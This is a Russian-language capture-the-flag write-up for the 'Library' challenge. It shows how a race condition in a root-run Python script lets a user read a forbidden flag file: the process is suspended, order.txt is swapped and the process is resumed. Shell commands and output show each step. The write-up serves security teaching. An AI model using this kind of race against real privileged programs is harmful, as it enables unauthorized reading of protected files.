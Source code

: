 # Library writeup
Подключаемся по ssh, смотрим, что есть:

```bash
$ ls
order.txt
$ ps
    PID TTY          TIME CMD
     25 pts/0    00:00:00 bash
     30 pts/0    00:00:00 ps
```

Негусто. Посмотрим на заказ книги:
```bash
$ order_book
⚸✤◔ Welcome to the Library ◕✤⚸
Сhoose the book you want to order and write it in order.txt, our librarian will keep your desire up-to-date (but please don't try to get forbidden literature, it's strictly prohibited).
Commands:
   1 - print list of all the books
   2 - order the book (please provide the name in the 'order.txt')
   q - quit
Command:
1
-------- Books --------
  flag.txt
  lazy_boy.txt
  lorem.txt
  wealth_and_poor.txt
-----------------------
Command:
2
There is no such book.
Command:
q
توديع - فراق! أتمنى لك يوما جميلا! Goodbye! Have a nice day! (Please press Ctrl+C)
```

Некий CLI, реализующий чтение файлов. Название желаемого файла нужно класть в **~/order.txt**. Попробуем прочитать какой-нибудь файл:

```bash
$ echo "lorem.txt" > order.txt
$ order_book 
⚸✤◔ Welcome to the Library ◕✤⚸
Сhoose the book you want to order and write it in order.txt, our librarian will keep your desire up-to-date (but please don't try to get forbidden literature, it's strictly prohibited).
Commands:
   1 - print list of all the books
   2 - order the book (please provide the name in the 'order.txt')
   q - quit
Command:
2
Want to proceed? [y/n]:y
---- Book contents ----
Lorem ipsum dolor sit amet, consectetur adipiscing elit. Maecenas eu nisl massa. Suspendisse tristique placerat hendrerit. Nunc tempus felis mi, ac sodales nisi tristique eleifend. Phasellus condimentum mattis lectus et posuere. Ut mattis, velit eget dapibus egestas, odio ligula bibendum metus, vel pretium tortor tellus auctor odio. Aliquam venenatis mauris varius vulputate rhoncus. Integer ultrices ut erat id imperdiet. Etiam ipsum nisl, tincidunt id lobortis non, pellentesque et ipsum. Suspendisse mattis enim vulputate, finibus massa a, auctor ligula.

Sed laoreet tincidunt lectus quis ornare. Ut vestibulum mauris nibh, eget sollicitudin odio ornare non. Cras ac accumsan lectus. Morbi ultrices erat at vulputate congue. Mauris ac mi dictum, gravida nibh quis, lobortis ipsum. Nulla facilisi. Vivamus dignissim, nunc sit amet elementum maximus, metus justo efficitur quam, ut euismod nisl libero eget tellus. Phasellus a arcu eget lectus egestas venenatis. Integer vestibulum tellus mollis massa sagittis, venenatis venenatis ex tincidunt. In eu fermentum turpis. Aliquam ornare malesuada posuere. Fusce interdum laoreet velit vel luctus. Suspendisse non risus id est dignissim dapibus. In hac habitasse platea dictumst. Nunc at turpis nunc. Pellentesque imperdiet nisi in odio vulputate, at porta dolor bibendum.

Donec augue nulla, mollis sit amet tellus id, blandit convallis dolor. Quisque dapibus massa ac commodo porttitor. Quisque vulputate turpis in consequat maximus. In pharetra quam vel magna euismod eleifend. Phasellus a felis justo. Mauris vitae sodales sem. Curabitur eleifend orci in finibus mattis. Ut volutpat est id commodo vulputate. Nam bibendum arcu ut eros tempor scelerisque. Donec sodales scelerisque justo a feugiat. Pellentesque habitant morbi tristique senectus et netus et malesuada fames ac turpis egestas. Donec convallis, nisi a rhoncus sodales, sem justo feugiat lacus, vitae consequat lacus diam a magna. Nunc blandit non sem eget consequat. Suspendisse commodo sapien ligula, at bibendum nisl finibus sit amet. Fusce quis odio et ipsum suscipit tristique vitae at mi. Vestibulum vitae magna sit amet mauris auctor facilisis.

Interdum et malesuada fames ac ante ipsum primis in faucibus. Sed hendrerit felis quis nulla mattis porta. Nunc malesuada erat ac nunc egestas pulvinar. Morbi sed dui efficitur, lacinia risus sed, tempor nisi. Donec elementum at arcu in sollicitudin. Cras elementum elit ut massa consequat, quis aliquet sem efficitur. Integer quis aliquam augue, non commodo turpis.

Phasellus hendrerit lacus quis magna efficitur, a dapibus dui aliquet. Fusce eget leo nec velit imperdiet blandit non at dui. Maecenas pulvinar felis at porttitor vehicula. Quisque mollis semper odio, et fringilla lorem rutrum eget. Mauris molestie tempor ipsum, id fringilla ex vestibulum vel. Cras et nunc eros. Etiam ut bibendum sapien, id pharetra ante. Vestibulum ante ipsum primis in faucibus orci luctus et ultrices posuere cubilia curae; 

-----------------------
```

Отлично, это работает. Ради интереса попробуем прочитать флаг:

```bash
$ echo "flag.txt" > order.txt
$ order_book 
⚸✤◔ Welcome to the Library ◕✤⚸
Сhoose the book you want to order and write it in order.txt, our librarian will keep your desire up-to-date (but please don't try to get forbidden literature, it's strictly prohibited).
Commands:
   1 - print list of all the books
   2 - order the book (please provide the name in the 'order.txt')
   q - quit
Command:
2
That seems like f0rb1dd3n literature. It's strictly prohibited in the Library.
```

Ожидаемо. Давайте изучать `order_book`. Для начала найдем, где она находится:

```bash
$ which order_book
/usr/bin/order_book
```

Окей, теперь скачаем её себе на локалку:
```bash
$ scp -rP 21009 visitor2@ctf.li2sites.ru:/usr/bin/order_book .
visitor2@ctf.li2sites.ru's password: 
order_book
```

И посмотрим на нее в дизассемблере:
```C
int main(int argc, const char **argv, const char **envp) {
    setuid(0);
    system("/usr/local/share/order_book.py");
    return 0;
}
```

Эта программа просто повышает себя до рута и запускает питоновский скрипт. Вернемся на сервер и посмотрим на [скрипт](deploy/service/order_book.py). Функция `main()`:

```python
def main():
    global books
    books = os.listdir(LIBDIR)
    updater = threading.Thread(target=update_book_to_read,)
    updater.start()

    banner()
    logic()
    print("توديع - فراق! أتمنى لك يوما جميلا! Goodbye! Have a nice day! (Please press Ctrl+C)")
```

Заметим, что **LIBDIR** = "**/books/**". Значит, файлы книг берутся оттуда. Однако, просто так мы их прочитать не можем, так как они принадлежат руту и у остальных юзеров нету привелегий на их чтение:

```bash
$ ls -lah /books/
total 36K
drwxr-xr-x 1 root root 4.0K Nov 29 21:53 .
drwxr-xr-x 1 root root 4.0K Nov 29 21:53 ..
-r-------- 1 root root  122 Nov 29 21:35 flag.txt
-r-------- 1 root root 3.2K Nov 29 21:35 lazy_boy.txt
-r-------- 1 root root 3.0K Nov 29 21:35 lorem.txt
-r-------- 1 root root 2.1K Nov 29 21:35 wealth_and_poor.txt

```

Наиболее интересным моментом является создание потока для функции `update_book_to_read()`. Взглянем на нее:

```python
def update_book_to_read():
    global book_to_order
    try:
        while True:
            f = open("order.txt", "r")
            book_to_order = f.read().strip()
            f.close()
            sleep(1)
    except FileNotFoundError:
        print("order.txt is not found by librarian.")
        os._exit(-1)
```

Раз в секунду она обновляет глобальную переменную **book_to_order**, записывая в нее содержимое **order.txt**. Поищем, где используется эта переменная:

```python
def order_book():
    global book_to_order
    
    try:
        assert book_to_order in books
    except AssertionError:
        print("There is no such book.")
        return

    if "flag" in book_to_order: 
        print("That seems like f0rb1dd3n literature. It's strictly prohibited in the Library.")
    else:
        ans = input("Want to proceed? [y/n]:")
        if ans != "y":
            return
        try:
            f = open(LIBDIR + book_to_order)
        except FileNotFoundError:
            print("There is no such book.")
            return
        data = f.read()

        print("---- Book contents ----")
        print(data)
        print("-----------------------")
        f.close()
```

Это функция чтения книги, вызваемая командой "2". Она читает запрашиваемый через **order.txt** файл, и выводит его содержимое, если выполнено несколько условий:
1. Он есть в списке файлов `books`
2. В названии файла нет `flag.txt`
3. Файл существует

И защиту действительно не обойдешь - она проверяет наличие жеалемого файла в списке, который никак не меняется с момента запуска программы.

Повторим вышесказанное. `update_book_to_read()` каждую секунду обновляет глобальную переменную **book_to_order**, к которой несколько раз обращается `order_book()`. Если наш заказ обновляется "в онлайне", то тогда выходит, что в разные моменты времени переменная **book_to_order** может хранить разные значения _в рамках одного вызова_ `order_book()`. К тому, же, между проверкой на наличие "flag.txt" в названии и самим чтением есть вызов `input()`, что дает неограниченную задержку. Налицо **data race**.

План такой:
1. Записываем в **order.txt** какой-нибудь существующий файл, не являющийся флагом
2. Запускаем **order_book**
3. Заказываем книгу (проходим все проверки, так как книга существует и не является флагом), но не нажимаем "y", отправляем программу в задний фон (Ctrl+Z)
4. Пишем "flag.txt" в **order.txt**
5. Возвращаем программу на передний план **order_book** (`fg`)
6. Ждем секунду, `update_book_to_read()` обновляет **book_to_order**
7. Нажимаем "y", программа читает файл, который находится в **book_to_order** => читает **flag.txt**

```bash
$ # step 1
$ echo "lorem.txt" > order.txt
$ # step 2-3
$ order_book 
⚸✤◔ Welcome to the Library ◕✤⚸
Сhoose the book you want to order and write it in order.txt, our librarian will keep your desire up-to-date (but please don't try to get forbidden literature, it's strictly prohibited).
Commands:
   1 - print list of all the books
   2 - order the book (please provide the name in the 'order.txt')
   q - quit
Command:
2
Want to proceed? [y/n]:^Z
[1]+  Stopped                 order_book
$ # step 4
$ echo "flag.txt" > order.txt 
$ # step 5-7
$ fg
order_book
y
---- Book contents ----
You managed to find a treasure of the Libray. Nice job you did!

li2CTF{b00K_15_m0R3_v4lu4bl3_7H4n_a_G0ld,__1_gu355_y0u_4gr33}

-----------------------
```

Флаг: `li2CTF{b00K_15_m0R3_v4lu4bl3_7H4n_a_G0ld,__1_gu355_y0u_4gr33}`
